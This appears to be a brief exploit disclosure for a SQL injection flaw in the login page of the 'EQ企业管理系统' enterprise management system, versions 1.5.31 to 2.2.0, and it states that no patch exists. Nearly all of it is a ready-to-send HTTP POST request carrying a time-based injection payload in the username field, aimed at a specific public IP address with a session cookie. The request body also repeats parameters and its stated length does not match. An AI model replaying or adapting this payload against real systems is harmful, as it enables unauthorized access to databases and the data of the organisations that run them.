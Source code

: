 # EQ
Exploit Title:EQ企业管理系统

Version:EQ v1.5.31 to v2.2.0

Date:December 5, 2022

Exploit Author:TLF

analysis report: EQ企业管理系统 v1.5.31 to v2.2.0 was discovered to contain a SQL injection
poc
POST /Account/Login HTTP/1.1
Host: 121.8.146.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, /; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://121.8.146.131
Connection: close
Referer: http://121.8.146.131/Account/Login
Cookie: ASP.NET_SessionId=v2svw4yucv1wxfah1zvwsyxy
UserNumber=admin';WAITFOR DELAY '0:0:5'--&UserPwd=123456&ServerDB=EQ&RememberPwd=false&UserPwd=123456&ServerDB=EQ&RememberPwd=false

Patches:None
